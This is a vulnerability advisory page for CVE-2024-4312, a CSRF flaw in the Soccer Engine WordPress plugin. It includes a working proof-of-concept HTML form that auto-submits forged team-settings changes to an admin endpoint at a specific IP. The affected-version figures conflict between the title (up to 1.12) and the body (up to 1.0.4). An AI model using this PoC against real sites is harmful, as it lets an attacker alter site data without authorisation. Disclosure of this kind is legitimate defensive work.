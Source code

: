 ```yaml
---
layout: page
title: CVE-2024-4312
subtitle: Soccer Engine – Soccer Plugin for WordPress <= 1.12 - Cross-Site Request Forgery
---
```

## Description
The Soccer Engine – Soccer Plugin for WordPress plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.12. This is due to missing or incorrect nonce validation when saving match and team settings. This makes it possible for unauthenticated attackers to change plugin settings as well as teams, players, etc. via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.0.4

## PoC :
```
<html>
  <!-- Made by eneriiiii <3 -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin.php?page=daextsoenl-teams" method="POST">
      <input type="hidden" name="form&#95;submitted" value="1" />
      <input type="hidden" name="name" value="eneri" />
      <input type="hidden" name="description" value="eneri" />
      <input type="hidden" name="logo" value="" />
      <input type="hidden" name="type" value="0" />
      <input type="hidden" name="club&#95;nation" value="ad" />
      <input type="hidden" name="national&#95;team&#95;confederation" value="0" />
      <input type="hidden" name="stadium&#95;id" value="0" />
      <input type="hidden" name="full&#95;name" value="" />
      <input type="hidden" name="address" value="" />
      <input type="hidden" name="tel" value="" />
      <input type="hidden" name="fax" value="" />
      <input type="hidden" name="website&#95;url" value="" />
      <input type="hidden" name="foundation&#95;date" value="" />
      <input type="hidden" name="foundation&#95;date&#95;alt&#95;field" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/soccer-engine-lite/soccer-engine-soccer-plugin-for-wordpress-112-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4312





